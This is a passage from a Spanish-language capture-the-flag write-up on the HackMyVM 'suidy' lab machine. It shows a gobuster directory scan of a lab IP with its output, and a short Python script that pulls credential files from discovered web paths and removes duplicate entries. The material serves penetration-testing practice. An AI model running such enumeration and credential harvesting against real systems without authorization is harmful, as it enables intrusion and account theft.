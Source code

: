 ```bash
kali :: Documents/hackmyvm/suidy » gobuster dir -u http://10.38.1.34/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,zip,txt
```

```bash
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.38.1.34/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,zip,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 22]
/robots.txt           (Status: 200) [Size: 362]
Progress: 1102795 / 1102800 (100.00%)
===============================================================
Finished
===============================================================
```

## Contenido del archivo robots.txt

![nmap host discovery](/images/writeups/hackmyvm/suidy/robotstxt.png)

![nmap host discovery](/images/writeups/hackmyvm/suidy/robotstxtend.png)

![nmap host discovery](/images/writeups/hackmyvm/suidy/shehatesme.png)


## Script en python para obtener credenciales y eliminar las duplicadas 

*Rutas encontradas con gobuster y guardadas en el archivo **files.txt***

```py
import requests

def get_files_content():
    with open("files.txt", 'r') as routes:
        for route in routes:
            url = f"http://10.38.1.34/shehatesme{route.strip()}"
            response = requests.get(url)
            print(response.text)
            with open("credentials.txt", 'a') as creds:
                creds.write(response.text)

def delete_duplicates_creds():
    creds_seen = set() # holds lines already seen
    with open("credentials.txt", 'r') as creds:
        for cred in creds:
            with open("credentials_clean.txt", 'a') as creds_clean:
                if cred not in creds_seen: # not a duplicate
                    creds_clean.write(cred)
                    creds_seen.add(cred)
    
```